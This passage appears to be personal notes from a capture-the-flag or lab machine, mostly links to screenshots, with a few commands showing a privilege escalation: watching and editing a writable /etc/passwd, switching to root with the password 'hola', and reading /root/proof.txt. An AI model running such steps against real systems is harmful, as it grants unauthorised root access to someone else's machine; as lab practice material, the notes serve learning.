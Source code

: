 ![[Pasted image 20230801134531.png]]

```
watch -n 1 ls -l /etc/passwd

```
![[Pasted image 20230801134736.png]]
![[Pasted image 20230801134851.png]]

```
nano /etc/passwd
```

![[Pasted image 20230801134940.png]]

```
su root
hola 
whoami
cd /root/ && ls -la
```

![[Pasted image 20230801135032.png]]

```
cat proof.txt
```

![[Pasted image 20230801135058.png]]

---

